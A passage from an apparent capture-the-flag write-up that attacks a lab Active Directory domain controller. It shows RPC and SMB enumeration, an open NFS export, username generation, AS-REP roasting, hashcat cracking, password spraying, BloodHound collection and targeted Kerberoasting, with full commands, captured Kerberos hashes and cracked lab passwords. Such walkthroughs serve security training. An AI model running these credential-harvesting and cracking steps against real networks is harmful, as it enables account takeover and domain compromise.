          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncacn_ip_tcp:10.10.219.247[49667]
          ncalrpc:[OLEF5B97BFE916AB1A8D2086F65519D]

Protocol: N/A 
Provider: N/A 
UUID    : 8FB74744-B2FF-4C00-BE0D-9EF9A191FE1B v1.0 Ngc Pop Key Service
Bindings: 
          ncacn_np:\\HAVEN-DC[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncacn_ip_tcp:10.10.219.247[49667]
          ncalrpc:[OLEF5B97BFE916AB1A8D2086F65519D]

Protocol: N/A 
Provider: N/A 
UUID    : 51A227AE-825B-41F2-B4A9-1AC9557A1018 v1.0 Ngc Pop Key Service
Bindings: 
          ncacn_np:\\HAVEN-DC[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncacn_ip_tcp:10.10.219.247[49667]
          ncalrpc:[OLEF5B97BFE916AB1A8D2086F65519D]

Protocol: [MS-DRSR]: Directory Replication Service (DRS) Remote Protocol 
Provider: ntdsai.dll 
UUID    : E3514235-4B06-11D1-AB04-00C04FC2DCD2 v4.0 MS NT Directory DRS Interface
Bindings: 
          ncacn_np:\\HAVEN-DC[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncacn_ip_tcp:10.10.219.247[49667]
          ncalrpc:[OLEF5B97BFE916AB1A8D2086F65519D]
          ncalrpc:[NTDS_LPC]
          ncacn_http:10.10.219.247[49675]
          ncacn_np:\\HAVEN-DC[\pipe\1e10c71b8275ebf0]

Protocol: [MS-LSAT]: Local Security Authority (Translation Methods) Remote 
Provider: lsasrv.dll 
UUID    : 12345778-1234-ABCD-EF00-0123456789AB v0.0 
Bindings: 
          ncacn_np:\\HAVEN-DC[\pipe\lsass]
          ncalrpc:[audit]
          ncalrpc:[securityevent]
          ncalrpc:[LSARPC_ENDPOINT]
          ncalrpc:[lsacap]
          ncalrpc:[LSA_EAS_ENDPOINT]
          ncalrpc:[lsapolicylookup]
          ncalrpc:[lsasspirpc]
          ncalrpc:[protected_storage]
          ncalrpc:[SidKey Local End Point]
          ncalrpc:[samss lpc]
          ncacn_ip_tcp:10.10.219.247[49667]
          ncalrpc:[OLEF5B97BFE916AB1A8D2086F65519D]
          ncalrpc:[NTDS_LPC]
          ncacn_http:10.10.219.247[49675]
          ncacn_np:\\HAVEN-DC[\pipe\1e10c71b8275ebf0]

[*] Received 621 endpoints.
```

The raw `rpcdump` output was six hundred-plus endpoints of noise, more than I needed to read line by line, so I ran `enum4linux` next since it packages up the RPC, SMB, and LDAP enumeration I actually care about into a single, readable pass.

```bash
 ===============================( Getting domain SID for raz0rblack.thm )===============================

Domain Name: RAZ0RBLACK
Domain Sid: S-1-5-21-3403444377-2687699443-13012745
```

Buried further down in that same `enum4linux` output was something that caught my eye immediately:

```bash
 ==================================( Session Check on raz0rblack.thm )==================================


[+] Server raz0rblack.thm allows sessions using username '', password ''


 ===============================( Getting domain SID for raz0rblack.thm )===============================
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 19:00]
└─[$]> crackmapexec -t 200 smb 10.10.219.0/24 -u '' -p '' --rid-brute --shares
SMB         10.10.219.247   445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
SMB         10.10.219.247   445    HAVEN-DC         [+] raz0rblack.thm\: 
SMB         10.10.219.247   445    HAVEN-DC         [-] Error enumerating shares: STATUS_ACCESS_DENIED
SMB         10.10.219.247   445    HAVEN-DC         [-] Error connecting: LSAD SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.
Running CME against 256 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
```

That sent me back to the original nmap output, where port 2049 and the `rpcbind`/`mountd` entries had been sitting the whole time. NFS is not a service I expect to see fronting an Active Directory box, which is exactly why I make a point of checking it: it is administered completely separately from SMB permissions, so an export can end up far more permissive than anyone intended without triggering any of the usual AD hardening checks.

```bash
└─[$]> showmount -e $host   
Export list for razorblack.thm:
/users (everyone)
```

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 19:07]
└─[$]> sudo mount -t nfs $host:/users mount
[sudo] password for abadd0n: 
```

`showmount -e` confirmed the export was readable, so I mounted it locally and started looking through what was actually sitting inside it.

```bash
root@EX3CP01S0N:/home/abadd0n/thm/boxes/RAZ0RBLACK/mount# ls
employee_status.xlsx  sbradley.txt
```

One of the files in that export turned out to hold the first flag outright, sitting in plain sight with no exploitation needed beyond having found the export in the first place.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 19:09]
└─[$]> cat sbradley.txt 
��THM{ab53e05c9a98def00314a14ccbfa8104}
```

With the easy flag out of the way, the rest of the export was more interesting to me than the flag itself, so I moved on to a file named `employee_status.xlsx`, since a spreadsheet full of employee records is exactly the kind of document that tends to leak full names, which convert directly into the standard corporate username formats.



That spreadsheet listed full names for what looked like the entire staff roster, which meant I had a real source of likely usernames instead of guessing at a handful of names from a wordlist.


Full names are not usernames on their own, though, and different organizations format AD logon names differently (first initial plus last name, full first name plus last initial, and so on), so rather than manually typing out every permutation by hand I wrote a short Python script to take each name from the spreadsheet and generate every common naming convention automatically, writing the results out to a single wordlist file.

```python
#!/usr/bin/python3

import time
from pyfiglet import figlet_format
from rich.progress import Progress
from rich.console import Console
from colorama import Fore, Style

def generate_username(first_name, last_name):
    username1 = first_name.lower() + last_name.lower()
    username2 = first_name.lower()[0] + last_name.lower()
    username3 = first_name.lower() + '_' + last_name.lower()
    return [username1, username2, username3]

def main():
    console = Console()

    ascii_art = figlet_format("Username Generator", font="slant")
    print(Fore.MAGENTA + ascii_art + Style.RESET_ALL)

    print(Fore.CYAN + "[+] Enter the number of people you want to generate usernames for: " + Style.RESET_ALL)
    num_people = int(input('root@EX3CP01S0N~# '))

    print(Fore.CYAN + "[+] Enter the first and last names of the people:" + Style.RESET_ALL)

    users_data = []
    for i in range(num_people):
        print(f"[+] Person {i+1}:")
        print(Style.BRIGHT + Fore.CYAN + 'Enter the first name')
        first_name = input('root@EX3CP01S0N~#')
        print(Style.BRIGHT + Fore.CYAN + 'Enter the last name')
        last_name = input('root@EX3CP01S0N~# ')
        users_data.append((first_name, last_name))

    ready_to_continue = input(Fore.CYAN + "[+] Are you done entering names? (yes/no): " + Style.RESET_ALL)
    if ready_to_continue.lower() == "yes":
        print(Fore.CYAN + "[+] Generating Usernames..." + Style.RESET_ALL)

        usernames = []
        with Progress() as progress:
            task = progress.add_task("[cyan]Generating", total=num_people, start=False)
            for first_name, last_name in users_data:
                usernames.extend(generate_username(first_name, last_name))
                progress.update(task, advance=1)
                time.sleep(0.1)  # Just to simulate progress

        print("\n" + Fore.CYAN + "[+] Enter the file path where you want to save the usernames (e.g., usernames.txt): " + Style.RESET_ALL)
        file_path = input('root@EX3CP01S0N~# ')

        with open(file_path, 'w') as file:
            for username in usernames:
                file.write(username + '\n')

        print(Fore.GREEN + "Usernames saved successfully to {}.".format(file_path) + Style.RESET_ALL)
    else:
        print(Fore.YELLOW + "[!] Please enter the remaining names." + Style.RESET_ALL)

if __name__ == "__main__":
    main()
```

Running that script against the spreadsheet's name list produced a much larger and far more plausible set of candidate usernames than anything I could have brute-forced from a generic list:

```bash
davenport
dport
daven_port
imogenroyce
iroyce
imogen_royce
tamaravidal
tvidal
tamara_vidal
arthuredwards
aedwards
arthur_edwards
carlingram
cingram
carl_ingram
nolancassidy
ncassidy
nolan_cassidy
rezazaydan
rzaydan
reza_zaydan
ljudmilavetrova
lvetrova
ljudmila_vetrova
ricodelgado
rdelgado
rico_delgado
tysonwilliams
twilliams
tyson_williams
stevenbradley
sbradley
steven_bradley
chamberlin
clin
chamber_lin
```

With a realistic username list in hand, the natural next move was to check which of those accounts have Kerberos pre-authentication disabled, since that setting is what makes AS-REP roasting possible in the first place: the KDC will hand back an encrypted TGT for any such account without needing a password at all. I ran `GetNPUsers.py` from `impacket` against the full list to find out.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 19:29]
└─[$]> python3 ~/ADTools/impacket/examples/GetNPUsers.py -dc-ip 10.10.219.247 -no-pass -request raz0rblack.thm/ -usersfile users.lst 
Impacket v0.9.25.dev1+20211027.123255.1dad8f7f - Copyright 2021 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User lvetrova doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$twilliams@RAZ0RBLACK.THM:cc6655e22c769e2244655f09ec5a1f05$fd51fc1973b5ef4ee979c6c7abb6572507d34041cc2265c820517a0324c0e3740efb071b7862f2be8634f4475ebd8c6587f2b405ede44209f6458c9bbcbbd6df4cdb3c2d887dba93a9aced06ae600c12949348048fe74a72c532821df7e3614530bce079845c736714f3f1aede3db6e7b47f8c5cc05a7f47cb559cd55441744dd6f70577d4487fa9fbf8d10a7671df4e7e27f1f24049bc1255446daa1b39e4ac0eec9e6da951fdaff9712d8eb3f3af5d8218c175f854b6ff67d2e72eec999ca0fc1bb00fec35ef6a203290bc12280974a15e750a2048f387a40dd4e7bd9cfd3c387f3efa064ec0950e9f86cd8017a350
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] User sbradley doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
```

That request succeeded against `twilliams`, which meant pre-authentication really was disabled on that account and I now had an AS-REP hash to work with offline. The hash itself is only useful once cracked, so I handed it straight to `hashcat` against rockyou rather than trying to guess at the password by hand.

<div class="callout callout-note">

**Why AS-REP roasting works**

Kerberos pre-authentication normally requires proving knowledge of a password before the KDC issues a TGT, which is what stops an attacker from requesting tickets for arbitrary accounts. When `UF_DONT_REQUIRE_PREAUTH` is set on an account, the KDC skips that check and hands back an AS-REP encrypted with a key derived from the account's own NTLM hash. That means the ticket itself becomes crackable offline with the exact same kind of dictionary attack you would use against any other password hash, no interaction with the account required beyond knowing its name.

</div>

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 19:30]
└─[$]> hashcat -m 18200 -a 0 hash /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O --force
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

OpenCL API (OpenCL 2.0 pocl 1.8  Linux, None+Asserts, RELOC, LLVM 11.1.0, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=====================================================================================================================================
* Device #1: pthread-AMD Ryzen 3 2300X Quad-Core Processor, 6898/13860 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

$krb5asrep$23$twilliams@RAZ0RBLACK.THM:cc6655e22c769e2244655f09ec5a1f05$fd51fc1973b5ef4ee979c6c7abb6572507d34041cc2265c820517a0324c0e3740efb071b7862f2be8634f4475ebd8c6587f2b405ede44209f6458c9bbcbbd6df4cdb3c2d887dba93a9aced06ae600c12949348048fe74a72c532821df7e3614530bce079845c736714f3f1aede3db6e7b47f8c5cc05a7f47cb559cd55441744dd6f70577d4487fa9fbf8d10a7671df4e7e27f1f24049bc1255446daa1b39e4ac0eec9e6da951fdaff9712d8eb3f3af5d8218c175f854b6ff67d2e72eec999ca0fc1bb00fec35ef6a203290bc12280974a15e750a2048f387a40dd4e7bd9cfd3c387f3efa064ec0950e9f86cd8017a350:roastpotatoes
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$twilliams@RAZ0RBLACK.THM:cc6655e22c76...17a350
Time.Started.....: Fri Apr  5 19:30:53 2024, (2 secs)
Time.Estimated...: Fri Apr  5 19:30:55 2024, (0 secs)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2008.6 kH/s (1.59ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 4223929/14344384 (29.45%)
Rejected.........: 953/4223929 (0.02%)
Restore.Point....: 4219833/14344384 (29.42%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: robbyheight -> ro0033
Hardware.Mon.#1..: Temp: 42c Util: 81%

Started: Fri Apr  5 19:30:52 2024
Stopped: Fri Apr  5 19:30:57 2024
```

That crack came back almost instantly with `twilliams:roastpotatoes`, giving me a genuine, usable domain credential for the first time on this box. Before doing anything more targeted with that single account, I always check whether a freshly cracked password has been reused anywhere else on the domain, since password reuse across accounts is common enough that a quick spray with `crackmapexec` costs nothing and occasionally hands over a second account for free.

```bash
└─[$]> crackmapexec -t 200 smb HAVEN-DC.raz0rblack.thm -u users.lst -p 'roastpotatoes' --shares
SMB         10.10.219.247   445    HAVEN-DC         [*] Windows 10.0 Build 17763 x64 (name:HAVEN-DC) (domain:raz0rblack.thm) (signing:True) (SMBv1:False)
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\davenport:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\dport:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\daven_port:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\imogenroyce:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\iroyce:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\imogen_royce:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\tamaravidal:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\tvidal:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\tamara_vidal:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\arthuredwards:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\aedwards:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\arthur_edwards:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\carlingram:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\cingram:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\carl_ingram:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\nolancassidy:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\ncassidy:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\nolan_cassidy:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\rezazaydan:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\rzaydan:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\reza_zaydan:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\ljudmilavetrova:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\lvetrova:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\ljudmila_vetrova:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\ricodelgado:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\rdelgado:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\rico_delgado:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [-] raz0rblack.thm\tysonwilliams:roastpotatoes STATUS_LOGON_FAILURE 
SMB         10.10.219.247   445    HAVEN-DC         [+] raz0rblack.thm\twilliams:roastpotatoes 
SMB         10.10.219.247   445    HAVEN-DC         [*] Enumerated shares
SMB         10.10.219.247   445    HAVEN-DC         Share           Permissions     Remark
SMB         10.10.219.247   445    HAVEN-DC         -----           -----------     ------
SMB         10.10.219.247   445    HAVEN-DC         ADMIN$                          Remote Admin
SMB         10.10.219.247   445    HAVEN-DC         C$                              Default share
SMB         10.10.219.247   445    HAVEN-DC         IPC$            READ            Remote IPC
SMB         10.10.219.247   445    HAVEN-DC         NETLOGON        READ            Logon server share 
SMB         10.10.219.247   445    HAVEN-DC         SYSVOL          READ            Logon server share 
SMB         10.10.219.247   445    HAVEN-DC         trash                           Files Pending for deletion
```

The spray did not turn up a second account, but it did confirm a handful of shares `twilliams` could reach, which I made a mental note of for later. Before chasing those shares down, I wanted to use this authenticated account for something more valuable first: an LDAP query, since a valid domain credential can pull a far more complete picture of users, groups, and object attributes than any of the unauthenticated enumeration I had done up to this point.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 19:33]
└─[$]> ldapdomaindump 10.10.219.247 -u 'raz0rblack.thm\twilliams'
/usr/local/bin/ldapdomaindump:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('ldapdomaindump==0.9.4', 'ldapdomaindump')
Password: 
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

That LDAP query enumerated the full set of domain user objects directly from the directory itself, which is a far more reliable source than any spreadsheet or wordlist since it reflects exactly who exists on the domain right now:

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 19:48]
└─[$]> jq -r '.[].attributes.sAMAccountName[0]' domain_users.json
twilliams
sbradley
lvetrova
xyan1d3
krbtgt
Guest
Administrator
```

Having a full user list is useful, but on an AD box what I actually want to see is the relationships between those objects, who can control what, since that is where the real privilege escalation paths live rather than in the raw object list itself. I ran `BloodHound-python` with `twilliams`'s credentials to collect that relationship data directly from the domain controller.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK/bloodhound] - [Fri Apr 05, 19:34]
└─[$]> bloodhound-python -d raz0rblack.thm -u 'twilliams' -p 'roastpotatoes' -ns 10.10.219.247 -c all
INFO: Found AD domain: raz0rblack.thm
INFO: Getting TGT for user
INFO: Connecting to LDAP server: haven-dc.raz0rblack.thm
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: haven-dc.raz0rblack.thm
INFO: Found 8 users
INFO: Found 52 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: HAVEN-DC.raz0rblack.thm
INFO: Done in 00M 31S
```

I loaded the collected JSON files into the `BloodHound` GUI to actually visualize what those relationships looked like, since a graph makes an attack path obvious in a way that raw LDAP output never does.



I marked `twilliams` as an owned node and worked outward from `Node Info -> Inbound Control Rights -> Transitive Object Control` to see everything that could reach this account with some form of control. That view surfaced something specific and immediately actionable: the account was flagged as Kerberoastable, meaning it holds a Service Principal Name and can be targeted directly rather than needing a blind sweep across every SPN on the domain.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 20:34]
└─[$]> python3 ~/ADTools/targetedKerberoast/targetedKerberoast.py -v -d "raz0rblack.thm" -u "twilliams" -p "roastpotatoes"               
[*] Starting kerberoast attacks
[*] Fetching usernames from Active Directory with LDAP
[+] Printing hash for (xyan1d3)
$krb5tgs$23$*xyan1d3$RAZ0RBLACK.THM$raz0rblack.thm/xyan1d3*$fab27560a7c7992f945a2c240febb84d$1e2c0bbf2b18a4ef1b4377f089ae216859ea085a0a2f62bcaeedc383a91209523049062f2f25becf355e7373feab1ad29992e73f1937322475a7c3548abfdcd34aa8d9d5ef90a1dffcad179d4faed8db5e71bd431973b81aba4b9ded95e1fef5b341cb6b4c776d26fcd63fcef42af8c259b666b7f0fc6e19e0f05ed4a7bb087ae9dacec311487dcec21024194b759fab4da0615aab00666332858fab1bc95d6c0d8c5025089289050621510697f24e4de077f5fa55dffce932ec4ad6351c743ebe887ae442e22184d5031a3c404d074b3a50a989ee508503f491d69e350ab12476d89ba7f96703f4cac3faef4422fd627448754bee03e79a5138d942c1c473bef24d3786aa0b879a4b6f045c3c94f9c714cc6758397b177d3791db3cc2cd580053a14a311eac518f0e9a62b6c7f9db702766dec771f54642999210ccf9ba50bcf797d5ddbdb101194ddc0d443773e9370c74d60db66e4cef3efd024f0762cd16e613d4cc0d6bdd48b37336710f852b3aa5f1be6da764dc22db9fe1fe5286b8ca863f946d925b94e339811008507c51183a177020b24546eeb1a37a0fdb310dccf0bbfc926fc39d4157f6b31502e7444c497596090d34b80aa9743f7b9b139de17ae1377062abdd533133e41d7c61b581821fdc7968051e27c24b59b38121e6c4fabfeace351d27e861cf894ee30f9779db3103ca01bce6828cc3b55f00b6023b74ad36bf76e9baa8587677ec821159515041fa7e9a41c6d86e3009c2a5ffe2eaaf9dae1289361429bcbb18eee3036c407209f30c019f36d1774ea3e1e26a9c1282f1a9f98dbabfcc1394f3c3d4829a149bc06b550bd8464d1adeab20def7e9ed0093a6b2c1f1d3b3d12ac36d27a19a7a82e7244b05c9e42b5ee7dfff0fcf1e14cadf3bec634c39eebac4dc8e79980e9b203173fadd6cc3f1adeed6b6f4eb55abbb22fce666e254ac2ef3969b9d20743482fef9791f994f1488d191cb24b61e401046e7cc37cc56eb2a1ffc3dd845e7f665d96f69662e8a1c87f62cc57a7ca368cf703879a6ae9cac1050b4f99d9f3af7edb413d4e4452ab26941c8e86fea13f8659d571655384a5671d8316338636c61f8fdd24df03ed87b21d7476f59c14d8ebc0178770751a8e6a23faec4a7454a74c7a43d64c1b075c1091ceef4718ae3966338571babd9ae2795c75fecd8f6ebd3a7d90487bd7db899e07dbf7c7528c4d759eac8f521d661061f1d6444b7503596c22076fce4dff1f4f804bb393576002c21ca85c0d84824b783b4bcd4545cf4ed166d9e22094c21a1c227bd81d42256d9fe95b2154ce2b9a52d4c1267e775067ae639bacb4698d63ee030d3a9fc032730e97203322a4db0839e837b70abb0c20e7a40231f670b19ecd1bd8992bc4e034f89c9ce0c52b5f9d03e3cafde12e93fae
```

Requesting a service ticket for that account and pulling out the encrypted portion gave me a TGS-REP hash for `xyan1d3`, which is a targeted Kerberoast rather than the noisier "grab every SPN on the domain" version, since BloodHound had already told me exactly which single account was worth going after.

<div class="callout callout-note">

**Targeted Kerberoasting versus a blind SPN sweep**

A generic Kerberoast attack requests service tickets for every account with an SPN and cracks whatever comes back, which works but generates a burst of ticket requests that stands out in Kerberos event logs. A targeted Kerberoast, guided by BloodHound showing exactly which Kerberoastable account sits on a useful attack path, requests a ticket for that one account only. The cryptography is identical either way (the service ticket is encrypted with a key derived from the target account's own password hash, which makes it crackable offline), but the targeted version is quieter and gets me straight to the account that actually matters instead of a pile of hashes I still have to sift through.

</div>

Handing that hash to `hashcat` cracked it just as quickly as the AS-REP hash had, and I now had a second, more privileged set of credentials to work with: `xyan1d3 : cyanide9amine5628`.

```bash
┌─[abadd0n@EX3CP01S0N] - [~/thm/boxes/RAZ0RBLACK] - [Fri Apr 05, 20:39]
└─[$]> hashcat -m 13100 -a 0 hash2 /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -O --force
hashcat (v6.2.5) starting

You have enabled --force to bypass dangerous warnings and errors!
This can hide serious problems and should only be done when debugging.
Do not report hashcat issues encountered when using --force.

